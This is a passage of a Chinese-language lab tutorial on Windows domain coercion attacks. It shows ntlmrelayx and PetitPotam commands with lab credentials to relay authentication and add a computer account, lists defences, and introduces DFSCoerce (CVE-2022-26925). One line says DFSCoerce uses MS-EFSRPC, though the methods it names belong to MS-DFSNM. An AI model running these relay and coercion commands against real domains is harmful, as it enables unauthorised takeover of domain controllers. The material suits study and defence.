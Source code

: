     ```shell
    python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --add-computer JustTest01$ --remove-mic
    ```
2. 利用工具触发认证  
    使用 PeitiPotam 利用工具进行强制触发认证，也是以辅域控为目标
    
    ```shell
    python3 PetitPotam.py -d hack.lab -u spiderman -p 123.com 20.20.20.100 20.20.20.6
    ```

![x1NLB6.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-2716bfef0142ca405d67ea759c26adb0ce2084bc.png)

3. 效果分析  
    可以看到ntlmrelay中执行的添加用户的操作成功执行了，进而验证了 PetitPotam 强制触发认证攻击成功。

#### 防御措施

- 删除不必要的角色服务
- 限制出入站的 NTLM 认证
- 打微软补丁

参考：[NTLM relay attacks explained, and why PetitPotam is the most dangerous | CSO Online](https://www.csoonline.com/article/3632090/ntlm-relay-attacks-explained-and-why-petitpotam-is-the-most-dangerous.html)

### 03 DFSCoerce

> CVE-2022-26925  
> MS-DFSNM  
> \\pipe\\netdfs  
> NetrDfsRemoveStdRoot() - NetrDfsAddStdRoot()

#### 攻击原理

在微软分布式文件系统命名空间管理协议[MS-DFSNM](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) 中，提供了一个管理DFS配置的RPC接口，该接口可通过 `\pipe\netdfs` SMB命名管道获得。  
攻击者使用 MS-EFSRPC 协议中的RPC接口来触发强制认证，目前发现的特定方法有两个：NetrDfsRemoveStdRoot() 和 NetrDfsAddStdRoot()

条件

- 域内启用 MS-DFSNM 协议
- 拥有一个域用户凭据信息
- 只对域控有效

#### 攻击流程&amp;相关工具

工具地址 - [DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)

实验环境：

> 环境简介  
> 域名 - hack.lab  
> 域控 - DC01 - 20.20.20.5  
> 辅域 - F2016 - 20.20.20.6  
> 域主机 - USER01 - 20.20.20.10  
> Kali - 20.20.20.100
